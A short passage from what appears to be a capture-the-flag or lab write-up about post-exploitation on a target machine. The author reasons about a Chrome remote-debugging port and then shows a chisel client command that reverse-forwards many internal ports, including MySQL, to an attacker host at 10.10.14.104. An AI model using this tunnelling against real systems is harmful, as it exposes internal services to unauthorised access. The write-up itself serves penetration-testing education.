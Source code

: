 ![](IMG/36.png)

> So far, I know some user used chrome remote debug port to inspect some service (maybe the internal website) in the victim 
> Then, I may use this protocol to monitor some sensitive file, too.
> But there are a lot of internal ports open 
> Hence I just forward all of them to external as follow

- Client side 

```
./chisel_linux64 client 10.10.14.104:1080 R:3000:127.0.0.1:3000 R:8000:127.0.0.1:8080 R:33060:127.0.0.1:33060 R:45735:127.0.0.1:45735 R:127.0.0.1:44089 R:3306:127.0.0.1:3306 R:38871:127.0.0.1:38871 &
```

![](IMG/37.png)
